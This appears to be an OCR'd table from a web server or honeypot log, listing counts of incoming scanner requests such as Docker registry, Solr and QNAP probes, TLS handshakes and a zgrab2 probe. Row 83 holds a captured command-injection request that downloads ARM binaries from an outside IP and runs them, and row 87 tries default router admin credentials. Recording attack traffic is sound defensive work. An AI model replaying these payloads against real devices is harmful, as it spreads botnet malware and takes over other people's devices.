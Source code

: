 |  78 |                     2 | GET /3/3/3/3/3/3/3/3/3/3/3/3/3/3/3/3 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                          |
|  79 |                     2 | \x00m\x00\x00\x01\x00\x00\x00\x018\x01,\x0CA \x00\xFF\xFF\x7F\x08\x00\x00\x01\x00\x003\x00:\x00\x00\x08\x00AA\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00(DESCRIPTION=(CONNECT_DATA=(CID=(PROGRAM=zgrab2))))                                                                                                                                                       |
|  80 |                     2 | GET /v2/_catalog HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                              |
|  81 |                     2 | GET /cgi-bin/authLogin.cgi HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                    |
|  82 |                     2 | POST /sdk HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                     |
|  83 |                     2 | GET /shell?cd+/tmp;rm+holdarm+hold.arm7;wget+http:/\x5C/193.143.1.19/bins/hold.arm7;chmod+777+hold.arm7;./hold.arm7+hold.jaws;wget+http:/\x5C/193.143.1.19/bins/hold.arm;chmod+777+hold.arm;./hold.arm+hold.jaws HTTP/1.1                                                                                                                                                                                              |
|  84 |                     2 | GET /query?q=SHOW+DIAGNOSTICS HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                 |
|  85 |                     2 | GET /solr/admin/info/system HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                   |
|  86 |                     1 | \x16\x03\x01\x00\xF2\x01\x00\x00\xEE\x03\x03M\x1E\x18'\x9D\x86\xC5\xAB\xC9\xA70I\xED8\x1F\xBAgj8\x87\xC2\xCAR\x99\xE4\xA5+Zh\xA3S\x19 \x1B5WYX\x1C\x1C\xAA\xF2\xA9=\xF5\xA5@Q7>\x10\xFC\xC4\x9F\x12Va(\xCA\x9D\xDDO|'\x02\x00&\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                                                                                                 |
|  87 |                     1 | GET /boaform/admin/formLogin?username=adminisp&psd=adminisp HTTP/1.0                                                                                                                                                                                                                                                                                                                                                   |
|  88 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\xD9\x8D\x84fx\xD0\xCB4\xCF\x13 \xBA\x22\xB9\x83\x7FJ\x9A\x15f\xF3F\x94\xC0\xFE.\x87\x0B\xADX\xCE\xF5\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                          |
|  89 |                     1 | \x16\x03\x01\x05\xA8\x01\x00\x05\xA4\x03\x03i7m\xC99I\x8F\xDE\xA1]\xC0l\xFB}?\xE8\xC5\xB4B\x22bY;H\xD8\xE2\xED\x1C\x99\xB04\x04 \xFB\x14\xF3{S\xE9F\x96Ay\x84\xC7\xDFa\x94\xC8\xBF&\xFDz\xDF3\xC1\x17\x81\x9F\xDE\x14\x0C\xF3s\x19\x00\x1A\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                                                                                     |
|  90 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03`\x10X\x1Av\x98(\xB91%\xC4|\x15\x1DjS\x10\xE0\xBE\xDETTh<\x1510\x11\xDE\x065M\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                                  |